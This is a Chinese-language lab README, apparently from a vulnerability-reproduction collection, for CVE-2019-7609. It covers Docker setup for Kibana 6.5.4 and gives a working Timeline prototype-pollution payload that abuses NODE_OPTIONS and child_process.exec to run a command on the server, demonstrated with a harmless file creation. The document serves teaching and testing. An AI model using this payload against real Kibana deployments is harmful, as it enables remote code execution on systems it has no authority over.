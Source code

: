 # Kibana 原型链污染导致任意代码执行漏洞 (CVE-2019-7609)

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 漏洞环境

启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timeline”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![](1.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![](2.png)

